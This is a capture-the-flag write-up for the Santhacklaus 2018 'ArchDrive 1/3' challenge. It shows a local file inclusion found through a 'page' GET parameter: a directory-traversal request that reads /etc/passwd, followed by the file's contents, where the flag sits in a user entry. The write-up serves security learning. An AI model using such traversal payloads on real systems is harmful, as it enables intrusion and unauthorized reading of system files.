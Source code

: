 # [Santhacklaus 2018] - ArchDrive


## ArchDrive 1/3

### Statement


![](/lib/images/writeups/2018_santhacklaus/archdrive/statement_archdrive1.png)


### State of the art

This comes with a really good looking website:


![](/lib/images/writeups/2018_santhacklaus/archdrive/archdrive1_1.png)


I notice a strange GET parameter when clicking on `Reset it`:

> https://archdrive.santhacklaus.xyz/?page=reset.php

### Basic local file inclusion

I tried to include `/etc/passwd` file:

> https://archdrive.santhacklaus.xyz/?page=../../../../../../../../../etc/passwd

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
G0lD3N_Us3r:x:1000:1000:IMTLD{Th1s_iS_4n_ImP0rt4nT_uS3r},,,:/home/G0lD3N_Us3r:/bin/bash
```

w00t!
